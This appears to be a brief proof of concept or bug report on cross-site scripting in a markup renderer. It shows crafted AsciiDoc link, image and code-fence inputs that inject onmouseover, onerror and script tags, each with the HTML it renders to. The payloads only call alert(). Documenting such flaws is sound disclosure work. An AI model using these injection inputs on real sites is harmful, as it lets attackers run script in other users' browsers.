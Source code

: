link:asd&colon;bla"onmouseover="alert(1)[KLIK HIER]
link:asd:bla"onmouseover="alert(1)[KLIK HIER2]
  Results in: <a onmouseover="alert(1)" href="bla">KLIK HIER</a>
image:https://gitlab-a.ing.net/fake.png[Alt text" onerror="alert(7)]
  Results in: <img onerror="alert(7)" alt="Alt text" src="https://gitlab-a.ing.net/fake.png">
```blaat"><script>alert(3)</script>
  Results in: <pre lang="blaat"><script>alert(3)</script>"&gt;<code></code></pre>
